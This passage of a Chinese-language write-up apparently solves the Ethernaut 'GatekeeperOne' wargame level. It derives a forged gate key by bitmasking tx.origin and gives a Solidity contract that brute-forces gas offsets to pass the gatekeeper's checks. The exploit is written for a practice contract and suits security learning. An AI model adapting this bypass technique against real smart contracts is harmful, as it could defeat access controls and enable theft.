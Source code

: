 可以看到，转换基本就是取` bytes `的后多少位；

从最后开始往前推：

输入一共是16个hex；

1. ` uint32(uint64(_gateKey)) == uint16(uint160(tx.origin) `

tx.origin的末尾4个hex = 输入的末尾8个hex

2. ` uint32(uint64(_gateKey)) != uint64(_gateKey) `

完整的输入 != 输入的末尾8个hex

3. ` uint32(uint64(_gateKey)) == uint16(uint64(_gateKey) `

输入的末尾4个hex = 输入的末尾8个hex

总结一下就是：输入的最后4个hex要为我们地址的最后4个hex，前8个hex要不全为0，中间的4个hex要为0；

用位运算来表达就是：` tx.origin & 0xFFFFFFFF0000FFFF `；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp {
    function Attack(address addr, uint256 gas) public {
        GatekeeperOne go = GatekeeperOne(addr);
        bytes8 key = bytes8(uint64(uint160(tx.origin) & 0xFFFFFFFF0000FFFF));
        require(go.enter{gas: 8191 * 10 + gas}(key), "failed");
    }

    function Start(address addr) public {
        for(uint256 i = 1; i < 8191; i++){
            try this.Attack(addr, i) {
                break;
            } catch {}
        }
    }
}
```

等个十几秒就成功了：

~~(我这边得到正确的gas后，单独运行` Attack `却失败，调试了好久都不清楚原因...)~~

![image-20250127235808699](./assets/image-20250127235808699.png)

